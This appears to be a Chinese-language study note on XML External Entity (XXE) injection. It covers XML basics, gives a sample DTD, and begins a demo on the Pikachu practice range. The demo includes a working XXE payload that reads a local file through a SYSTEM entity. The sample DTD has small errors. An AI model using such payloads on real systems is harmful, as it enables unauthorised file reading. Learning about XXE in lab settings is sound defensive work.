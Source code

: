 <a name="RAJGC"></a>
### 一、思维导图
![](https://cdn.nlark.com/yuque/0/2021/png/2476579/1629946396091-c96807bc-763f-4bd0-995f-107756606642.png#clientId=uc5789d7d-b19a-4&from=paste&id=udf8b4592&originHeight=965&originWidth=1259&originalType=url&ratio=1&status=done&style=none&taskId=u92f1b460-ec25-42db-b6ff-c28c0736064)
<a name="zVlSM"></a>
### 二、基础概念
<a name="THWcS"></a>
#### 1、xml基础概念
XML被设计为传输和存储数据，XML文档结构包括XML声明、DTD文档类型定义(可选)、文档元素，其焦点是数据的内容，其把数据从HTML分离，是独立于软件和硬件的信息传输工具。XXE漏洞全称XMLExternal Entity Injection，即xml外部实体注入漏洞，XXE漏洞发生在应用程序解析XML输入时，没有禁止外部实体的加载，导致可加载恶意外部文件，造成文件读取、命令执行、内网端口扫描、攻击内网网站等危害。
<a name="zuuOB"></a>
#### 2、XML与HTML的主要差异

XML被设计为传输和存储数据，其焦点是数据的内容。<br />HTML被设计用来显示数据，其焦点是数据的外观。<br />HTML旨在显示信息，而XML旨在传输信息。

<a name="y4k6O"></a>
#### 3、xml示例
```bash
<!--文档类型定义-->
<!DOCTYPE note [	<!--定义此文档时note类型的文档-->
<!ELEMENT note (to,from,heading,body)>	<!--定义note元素有四个元素-->
<!ELEMENT to (#PCDATA)>			<!--定义to元素为"#PCDATA"类型-->
<!ELEMENT from (#PCDATA)>		<!--定义from元素为"#PCDATA"类型-->
<!ELEMENT head (#PCDATA)>		<!--定义head元素为"#PCDATA"类型-->
<!ELEMENT body (#PCDATA)>		<!--定义body元素为"#PCDATA"类型-->
]]]>

<!--文档元素-->
<note>
    <to>Dave</to>
    <from>Tom</from>
    <head>Reminder</head>
    <body>You are a good man</body>
</note>
```
<a name="Zo2sC"></a>
### 三、演示案例
<a name="Mwdtu"></a>
#### 1、pikachu靶场XML
-回显，玩法，协议，引入<br />![](https://cdn.nlark.com/yuque/0/2021/png/2476579/1629946671022-70bab52a-c29b-4130-a2e5-f29db8e6db96.png#clientId=uc5789d7d-b19a-4&from=paste&id=u2aa20b83&originHeight=324&originWidth=911&originalType=url&ratio=1&status=done&style=none&taskId=u198dc860-752b-47ef-83b0-9bbcc697a81)

- 打开靶场

![image.png](https://cdn.nlark.com/yuque/0/2021/png/2476579/1629946696208-1a10cd6d-321e-41ae-8666-985915480adf.png#clientId=uc5789d7d-b19a-4&from=paste&height=373&id=u8c4fae66&originHeight=746&originWidth=1920&originalType=binary&ratio=1&size=76662&status=done&style=none&taskId=ubbe0430f-ed34-4f70-9181-85eceeb0176&width=960)

- 文件读取
```bash
<?xml version = "1.0"?>
<!DOCTYPE ANY [
		<!ENTITY xxe SYSTEM "file:///d://test.txt">
]>
<x>&xxe;</x>
```
**备注：**前提条件是有那个文件<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/2476579/1629946802756-3a792c6d-79cc-4520-84bf-981bac9c821b.png#clientId=uc5789d7d-b19a-4&from=paste&height=188&id=u82a37a4b&originHeight=375&originWidth=1920&originalType=binary&ratio=1&size=50136&status=done&style=none&taskId=u6be1ede1-b71d-4011-afff-68f2f765fe6&width=960)

